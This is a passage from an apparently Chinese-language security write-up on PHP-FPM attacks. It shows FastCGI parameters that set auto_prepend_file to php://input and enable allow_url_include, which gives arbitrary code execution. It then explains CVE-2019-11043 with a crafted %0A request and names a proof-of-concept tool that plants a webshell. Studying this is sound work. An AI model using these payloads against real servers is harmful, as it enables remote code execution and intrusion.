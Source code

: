 接着又一个问题，我们怎么设置auto_prepend_file的值呢？此外，php://input伪协议也是需要开启allow_url_include选项的，那又在哪里设置开启呢？

### PHP_VALUE和PHP_ADMIN_VALUE
PHP_VALUE和PHP_ADMIN_VALUE是PHP-FPM的两个环境变量。PHP_VALUE可以设置模式为PHP_INI_USER和PHP_INI_ALL的选项，PHP_ADMIN_VALUE可以设置所有选项（disable_functions除外，这个选项是PHP加载的时候就确定了，在范围内的函数直接不会被加载到PHP上下文中）。

由前面分析的FastCGI协议知道，type为4的record是键值对的形式，因此我们可以直接在报文中添加这两个PHP-FPM的环境变量来进行设置：
```
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
    'PHP_VALUE': 'auto_prepend_file = php://input', # 危险，不要在生产环境测试
    'PHP_ADMIN_VALUE': 'allow_url_include = On' # 危险，不要在生产环境测试
}
```
设置auto_prepend_file = php://input且allow_url_include = On，然后将我们需要执行的代码放在Body中，即可执行任意代码。

另外，SCRIPT_FILENAME选项需要我们设置一个服务端已存在的PHP文件（如`/usr/local/lib/php/PEAR.php`），该选项是让PHP-FPM执行目标服务器上的文件，且由于security.limit_extensions项（PHP 5.3.9增加）的限制导致只能执行PHP文件（否则可以造成读取任意文件）。
执行效果如下图所示：
![fpm poc 执行](../pictures/phpfpm_2.png)

## 0x04 PHP-FPM + Nginx RCE CVE-2019-11043
### 漏洞概述
由于请求 \n(%0a) 传入导致 Nginx 传递给 php-fpm 的 PATH_INFO 为空，进而导致可通过 FCGI_PUTENV 与 PHP_VALUE 相结合，修改当前 php-fpm 进程中的 php 配置，在特殊构造的配置情况下，可以远程执行任意代码。
### 漏洞成因
```
location ~ [^/]\.php(/|$) {
    fastcgi_split_path_info ^(.+?\.php)(/.*)$;
    fastcgi_param PATH_INFO $fastcgi_path_info;
    ...
}
```
当nginx 配置文件存在如上配置时，请求输入的uri 含有\n 符号时导致截断，经过巧妙的构造，使得FCGI_PUTENV写入特定位置，污染环境变量PHP_VALUE，修改fpm的ini的变量设置，如若发起`GET /index.php/PHP_VALUE%0Aerror_reporting=9;;;;;;?....` 的请求会将 error_reporting 设置为9，详细过程请参考附录链接。
### 漏洞执行过程
漏洞可污染 PHP-FPM 进程中 PHP 环境变量，POC工具 [phuip-fpizdam](https://github.com/neex/phuip-fpizdam) 逐步修改 PHP 环境变量，利用报错信息写入 WebShell 来实施远程命令执行。